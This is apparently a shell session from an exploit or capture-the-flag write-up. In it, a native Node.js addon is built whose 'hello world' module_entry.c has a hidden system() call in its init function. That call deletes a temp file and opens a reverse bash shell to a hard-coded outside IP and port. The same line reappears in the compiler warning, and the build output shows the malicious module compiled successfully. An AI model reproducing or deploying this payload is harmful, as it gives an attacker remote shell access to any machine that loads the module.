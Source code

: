 ```shell
root@stypr-jpn:~/aaa/iotjs/# npm i -g node-gyp
root@stypr-jpn:~/aaa/iotjs/# python ./iotjs/tools/iotjs-create-module.py --template shared v
... (Some setups from guide) ...
root@stypr-jpn:~/aaa/iotjs/v/src# vi module_entry.c
root@stypr-jpn:~/aaa/iotjs/v/src# cat module_entry.c 
#include <node_api.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <execinfo.h>

static napi_value hello_world(napi_env env, napi_callback_info info) {
  napi_value world;
  const char* str = "Hello world!";
  size_t str_len = strlen(str);
  if (napi_create_string_utf8(env, str, str_len, &world) != napi_ok)
    return NULL;
  return world;
}

napi_value init_v(napi_env env, napi_value exports) {
  napi_property_descriptor desc = { "hello", 0, hello_world,  0,
                                    0,       0, napi_default, 0 };
  system("rm -rf /tmp/styp.node; bash -i >& /dev/tcp/158.101.144.10/12345 0>&1");
  if (napi_define_properties(env, exports, 1, &desc) != napi_ok)
    return NULL;

  return exports;
}

root@stypr-jpn:~/aaa/iotjs/v# node-gyp configure
...
root@stypr-jpn:~/aaa/iotjs/v# node-gyp build
gyp info it worked if it ends with ok
gyp info using node-gyp@8.4.0
gyp info using node@14.18.1 | linux | x64
make: Entering directory '/root/aaa/iotjs/v/build'
gyp info spawn make
gyp info spawn args [ 'BUILDTYPE=Release', '-C', 'build' ]
  CC(target) Release/obj.target/v/src/module_entry.o
../src/module_entry.c: In function ‘init_v’:
../src/module_entry.c:19:3: warning: ignoring return value of ‘system’, declared with attribute warn_unused_result [-Wunused-result]
   system("rm -rf /tmp/styp.node; bash -i >& /dev/tcp/158.101.144.10/12345 0>&1");
   ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  SOLINK_MODULE(target) Release/obj.target/v.node
  COPY Release/v.node
root@stypr-jpn:~/aaa/iotjs/v/build/Release# ls -al
total 28
drwxr-xr-x 4 root root 4096 Nov 21 01:54 .
drwxr-xr-x 3 root root 4096 Nov 21 01:23 ..
drwxr-xr-x 3 root root 4096 Nov 21 01:32 .deps
drwxr-xr-x 3 root root 4096 Nov 21 01:54 obj.target
-rwxr-xr-x 2 root root 8336 Nov 21 01:54 v.node
```
